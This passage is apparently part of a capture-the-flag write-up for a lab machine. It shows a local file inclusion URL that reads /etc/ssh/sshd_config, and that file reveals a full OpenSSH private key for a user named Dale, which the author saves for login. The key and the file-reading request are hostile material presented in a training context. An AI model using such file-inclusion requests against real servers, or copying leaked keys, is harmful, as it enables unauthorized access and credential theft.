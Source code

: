 I then fuzzed the URL with ZAP. I found this interesting URL:

```
http://dev.team.thm/script.php?page=/etc/ssh/sshd_config
```

It contained in it the RSA private key for the user Dale:

```
#Dale id_rsa
#-----BEGIN OPENSSH PRIVATE KEY-----
#b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
#NhAAAAAwEAAQAAAYEAng6KMTH3zm+6rqeQzn5HLBjgruB9k2rX/XdzCr6jvdFLJ+uH4ZVE
#NUkbi5WUOdR4ock4dFjk03X1bDshaisAFRJJkgUq1+zNJ+p96ZIEKtm93aYy3+YggliN/W
#oG+RPqP8P6/uflU0ftxkHE54H1Ll03HbN+0H4JM/InXvuz4U9Df09m99JYi6DVw5XGsaWK
#o9WqHhL5XS8lYu/fy5VAYOfJ0pyTh8IdhFUuAzfuC+fj0BcQ6ePFhxEF6WaNCSpK2v+qxP
#zMUILQdztr8WhURTxuaOQOIxQ2xJ+zWDKMiynzJ/lzwmI4EiOKj1/nh/w7I8rk6jBjaqAu
#k5xumOxPnyWAGiM0XOBSfgaU+eADcaGfwSF1a0gI8G/TtJfbcW33gnwZBVhc30uLG8JoKS
#xtA1J4yRazjEqK8hU8FUvowsGGls+trkxBYgceWwJFUudYjBq2NbX2glKz52vqFZdbAa1S
#0soiabHiuwd+3N/ygsSuDhOhKIg4MWH6VeJcSMIrAAAFkNt4pcTbeKXEAAAAB3NzaC1yc2
#EAAAGBAJ4OijEx985vuq6nkM5+RywY4K7gfZNq1/13cwq+o73RSyfrh+GVRDVJG4uVlDnU
#eKHJOHRY5NN19Ww7IWorABUSSZIFKtfszSfqfemSBCrZvd2mMt/mIIJYjf1qBvkT6j/D+v
#7n5VNH7cZBxOeB9S5dNx2zftB+CTPyJ177s+FPQ39PZvfSWIug1cOVxrGliqPVqh4S+V0v
#JWLv38uVQGDnydKck4fCHYRVLgM37gvn49AXEOnjxYcRBelmjQkqStr/qsT8zFCC0Hc7a/
#FoVEU8bmjkDiMUNsSfs1gyjIsp8yf5c8JiOBIjio9f54f8OyPK5OowY2qgLpOcbpjsT58l
#gBojNFzgUn4GlPngA3Ghn8EhdWtICPBv07SX23Ft94J8GQVYXN9LixvCaCksbQNSeMkWs4
#xKivIVPBVL6MLBhpbPra5MQWIHHlsCRVLnWIwatjW19oJSs+dr6hWXWwGtUtLKImmx4rsH
#ftzf8oLErg4ToSiIODFh+lXiXEjCKwAAAAMBAAEAAAGAGQ9nG8u3ZbTTXZPV4tekwzoijb
#esUW5UVqzUwbReU99WUjsG7V50VRqFUolh2hV1FvnHiLL7fQer5QAvGR0+QxkGLy/AjkHO
#eXC1jA4JuR2S/Ay47kUXjHMr+C0Sc/WTY47YQghUlPLHoXKWHLq/PB2tenkWN0p0fRb85R
#N1ftjJc+sMAWkJfwH+QqeBvHLp23YqJeCORxcNj3VG/4lnjrXRiyImRhUiBvRWek4o4Rxg
#Q4MUvHDPxc2OKWaIIBbjTbErxACPU3fJSy4MfJ69dwpvePtieFsFQEoJopkEMn1Gkf1Hyi
#U2lCuU7CZtIIjKLh90AT5eMVAntnGlK4H5UO1Vz9Z27ZsOy1Rt5svnhU6X6Pldn6iPgGBW
#/vS5rOqadSFUnoBrE+Cnul2cyLWyKnV+FQHD6YnAU2SXa8dDDlp204qGAJZrOKukXGIdiz
#82aDTaCV/RkdZ2YCb53IWyRw27EniWdO6NvMXG8pZQKwUI2B7wljdgm3ZB6fYNFUv5AAAA
#wQC5Tzei2ZXPj5yN7EgrQk16vUivWP9p6S8KUxHVBvqdJDoQqr8IiPovs9EohFRA3M3h0q
#z+zdN4wIKHMdAg0yaJUUj9WqSwj9ItqNtDxkXpXkfSSgXrfaLz3yXPZTTdvpah+WP5S8u6
#RuSnARrKjgkXT6bKyfGeIVnIpHjUf5/rrnb/QqHyE+AnWGDNQY9HH36gTyMEJZGV/zeBB7
#/ocepv6U5HWlqFB+SCcuhCfkegFif8M7O39K1UUkN6PWb4/IoAAADBAMuCxRbJE9A7sxzx
#sQD/wqj5cQx+HJ82QXZBtwO9cTtxrL1g10DGDK01H+pmWDkuSTcKGOXeU8AzMoM9Jj0ODb
#mPZgp7FnSJDPbeX6an/WzWWibc5DGCmM5VTIkrWdXuuyanEw8CMHUZCMYsltfbzeexKiur
#4fu7GSqPx30NEVfArs2LEqW5Bs/bc/rbZ0UI7/ccfVvHV3qtuNv3ypX4BuQXCkMuDJoBfg
#e9VbKXg7fLF28FxaYlXn25WmXpBHPPdwAAAMEAxtKShv88h0vmaeY0xpgqMN9rjPXvDs5S
#2BRGRg22JACuTYdMFONgWo4on+ptEFPtLA3Ik0DnPqf9KGinc+j6jSYvBdHhvjZleOMMIH
#8kUREDVyzgbpzIlJ5yyawaSjayM+BpYCAuIdI9FHyWAlersYc6ZofLGjbBc3Ay1IoPuOqX
#b1wrZt/BTpIg+d+Fc5/W/k7/9abnt3OBQBf08EwDHcJhSo+4J4TFGIJdMFydxFFr7AyVY7
#CPFMeoYeUdghftAAAAE3A0aW50LXA0cnJvdEBwYXJyb3QBAgMEBQYH
#-----END OPENSSH PRIVATE KEY-----

```

I saved it to a file called **dale_rsa**. I took out all of the "#"s in it and did a **chmod 600** on it.
